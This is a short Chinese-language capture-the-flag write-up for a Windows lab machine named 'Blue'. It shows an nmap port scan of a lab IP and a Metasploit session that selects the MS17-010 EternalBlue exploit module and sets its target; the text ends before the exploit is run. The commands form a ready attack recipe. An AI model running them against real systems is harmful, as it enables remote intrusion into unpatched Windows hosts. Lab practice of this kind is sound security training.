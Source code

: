 ```yaml
---
sidebar_position: 1
tags: [Easy, Windows, CVE-2017-0146]
title: Blue
description: Windows 永恒之蓝漏洞介绍
---
```

# Blue
## 端口扫描
> 因为 Windows 防火墙默认不回显 ICMP 请求所以需要使用 -Pn 选项

```bash
root@ip-10-10-158-144:~# nmap -sT -p- --min-rate 1000 -Pn  10.10.75.105

Starting Nmap 7.60 ( https://nmap.org ) at 2023-08-01 11:16 BST
Nmap scan report for ip-10-10-75-105.eu-west-1.compute.internal (10.10.75.105)
Host is up (0.0032s latency).
Not shown: 65526 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49160/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 38.76 seconds
```
## ms17-010
直接使用 MSF 进行攻击就可以了, 永恒之蓝漏洞都是老漏洞了, 配置完成之后直接运行就可以了
```bash showLineNumbers
msf6 > search ms17-010

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.75.105
RHOSTS => 10.10.75.105
```